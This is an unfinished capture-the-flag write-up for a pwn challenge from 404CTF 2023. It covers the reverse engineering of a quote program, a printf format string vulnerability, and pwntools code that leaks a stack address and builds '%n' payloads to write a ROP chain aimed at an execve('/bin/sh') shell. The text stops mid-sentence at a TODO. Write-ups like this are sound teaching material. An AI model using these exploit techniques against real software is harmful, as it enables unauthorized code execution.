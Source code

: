 ```yaml
---
layout: post
title: 404CTF 2023 | Une citation pas comme les autres [1/2]
image: /assets/images/404ctf/une-citation-pas-comme-les-autres-1-2/cover.png
date: 2023-06-08 16:26:00
categories: [404ctf, pwn]
---
```


This challenge was part of the [404CTF 2023](https://www.404ctf.fr/), organized by the General Directorate for External Security (DGSE) and Télécom SudParis.

# Challenge Description

![Challenge Description]({{site.baseurl}}/assets/images/404ctf/une-citation-pas-comme-les-autres-1-2/description.png)

When I did the challenge, the comment about `/bin` not being mounted wasn't present on the description. You will discover in this writeup why it has been added. This method is probably more difficult than the intended method, but it is what it is ¯\\\_(ツ)\_/¯

![checksec output]({{site.baseurl}}/assets/images/404ctf/une-citation-pas-comme-les-autres-1-2/checksec.png)

# Reverse engineering

In the `main` function, we have the choice between 3 functions :
- `count_quotes` : Nothing interesting here
- `pick_quote` : This function picks a random quote in a file called `citations.txt` and prints it. Citations are delimited with `'%'`. This function is very useful and could have saved me hours but why choose the easiest way ? :)
- `write_quote` : We are asked some input, and this input is then printed. We can notice here a **Format String Vulnerability**, as we control the string passed to `printf`.

![Ghidra decompiled write_quote function]({{site.baseurl}}/assets/images/404ctf/la-feuille-blanche/write_quote.png)

# Exploitation

> A **Format String Vulnerability** happens when the user controls the parameter used to format a string. The most common example is in C, with the first argument of `printf`.
> 
> An attacker could inject format specifiers in order to read memory content. This happens because when calling a function, if there is a lot of arguments they will be passed through the stack. Take a look at [this video](https://youtu.be/0WvrSfcdq1I) from the great LiveOverflow for an introduction to this vulnerability.

With `printf`, a *Format String Vulnerability* can be used to leak content of the memory, using `'%x'` or `'%p'`, but also to **write** data thanks to the `'%n'` format specifier and a bit of tweaking.

The first plan was to leak an address of the stack to compute the return address of `write_quote`, and then write a ROP chain to execute an **execve** syscall and execute `/bin/sh`.

> It would be cleaner to use the return address of the main function instead, but as it is exiting and never returning we cannot do it.
>  
> The ROP chain can be written with several calls to `write_quote`, but it should be written from bottom to top because as soon as the return address is overwritten, the ROP chain will be executed.

The leak is straightforward, as the first address was on the stack :

```py
#!/usr/bin/python3
from pwn import *

REMOTE = False
if REMOTE:
        p = remote('challenges.404ctf.fr', 31719)
else:
        p = process('./une_citation_pas_comme_les_autres_1_2')
        input('Waiting...') # Used to attach gdb to the process

p.recvuntil(b'>>> ')
p.send(b'2\n')
p.recvuntil(b'[Vous] : ')
p.send(b'%p\n')
p.recvuntil(b' : ')
addr = int(p.recvuntil(b'\n').rstrip(b'\n'), 16)

print(f"Leaked addr {hex(addr)}")
targetAddr = addr + 0x5a8
print(f"Target addr {hex(targetAddr)}")
```

Then I wanted to ensure that our write primitive is stable and simple to use, so I wanted to write a function to automate the process of writing some data at a given address. 

The `'%n'` format specifier writes the number of characters printed so far at the addess passed as argument. But if we put an address in our payload, it means that we will have some **null** character, and `printf` will stop at the first `'\0'` encountered.

> For this reason, a payload where the address is before the `'%n'` won't work !

We will then have to put our address at the end of the payload. Such payload will have the following structure :
- Padding `'%c'` to shift parameter counter until the place where the address is
- `'%Nx'` where `N` will control the value that we want to write
- Padding `'_'` for alignment and to ensure that the address is at a fixed position
- The wanted address, little-endian

```py
def write_rop(offset, val):
        p.recvuntil(b'>>> ')
        p.send(b'2\n')
        p.recvuntil(b'[Vous] : ')
        val = str(val-178) # 178 is the number of characters printed 
        payload = (b'%c '*12 + b'%.' + val.encode() + b'f%n').ljust(56, b'_')
        payload += p64(targetAddr+offset)
        print(f'Sending {payload}')
        p.send(payload + b'\n')
```

It took me a while to figure out how to do it, but I managed it with a bit of gadget gymnastic.

Another issue is that there was a timeout on the server side, and 

// TODO (yes I know I didn't even finished the sentence...)

